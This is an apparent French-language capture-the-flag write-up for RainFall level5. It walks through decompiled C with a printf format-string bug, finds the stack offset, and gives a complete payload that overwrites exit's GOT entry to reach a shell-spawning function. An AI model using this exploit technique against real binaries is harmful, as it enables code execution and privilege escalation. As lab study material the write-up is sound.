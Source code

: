 Here is the decompiled code :

```c
void o(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}

void n(void)

{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

void main(void)

{
  n();
  return;
}
```

On voit une fonction n() qui utilise printf avec la meme vulnerabilite que les 2 exercices precedents et une fonction o() qui spawn un shell. 

On va faire en sorte d'executer la fonction o() au moment du printf non protege pour spawn le shell.

On retrouve la position du buffer grace aux %x,
```
level5@RainFall:~$ ./level5 
aaaa %X %X %X %X %X %X %X %X
aaaa 200 B7FD1AC0 B7FF37D0 61616161 20582520 25205825 58252058 20582520
```

Il est en 4eme position.

L'adresse de o() est 0x080484a4.

On a nos elements pour exploiter la faille et spawn un shell.
On peut voir que la fonction n() utilise exit(), et grace a printf, on va modifier l'adresse d'exit pour atteindre la fonction o().

```
level5@RainFall:~$ objdump -R level5 | grep "exit"
08049838 R_386_JUMP_SLOT   exit
```

L'adresse est donc 0x08049838.

Le payload va ressembler a ca :
[ addr exit() ] + [ valeur de l'addr o() - 4 bytes de l'addr d'exit() ]

`(python -c 'print("\x38\x98\x04\x08%134513824d%4$n")'; cat) | ./level5`

Ressource : https://axcheron.github.io/exploit-101-format-strings/#code-execution-redirect
